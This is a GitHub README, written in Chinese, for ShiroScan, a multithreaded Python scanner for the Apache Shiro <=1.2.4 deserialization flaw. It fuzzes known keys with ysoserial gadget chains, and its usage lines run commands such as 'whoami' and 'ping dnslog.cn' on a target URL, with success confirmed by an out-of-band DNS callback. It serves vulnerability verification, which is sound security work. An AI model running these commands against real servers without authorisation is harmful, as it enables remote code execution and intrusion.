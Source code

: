 # ShiroScan
Shiro&lt;=1.2.4反序列化，一键检测工具

    改动内容：1.新增4个利用链模块(CommonsCollections7-10)，已打包成ysoserial的jar包，请勿更换
    改动内容：2.增加多线程，虽模块增加但速度却提高300%

```
集成21个key进行fuzz
```

* 如果有帮助，请点个star哦，blog：www.svenbeast.com
* pip3 install -r requirments.txt     

* Usage：python3 shiro.py  url  command
* Usage：python3 shiro.py  http://url.com  whoami

* http://www.dnslog.cn/   验证推荐使用这个dnslog平台，速度比ceye.io要快很多
* 执行的命令带空格记得用""引起来

* usage：python3 shiro.py  http://url.com  "ping dnslog.cn"
* 11个模块全部跑一遍,然后去dnslog平台查看是否收到请求，不出来就GG，也可能是因为编码还不够多

* 请自行收集编码，在moule下的源代码中自行添加方法即可

* 为了脚本运行简单，多线程数量不是使用者传参控制，默认20线程，如需改动请到/moule/main.py第20行代码自行修改控制线程的参数
## 不推荐当做exp使用，效率问题
## 仅供安全人员验证,测试是否存在此漏洞

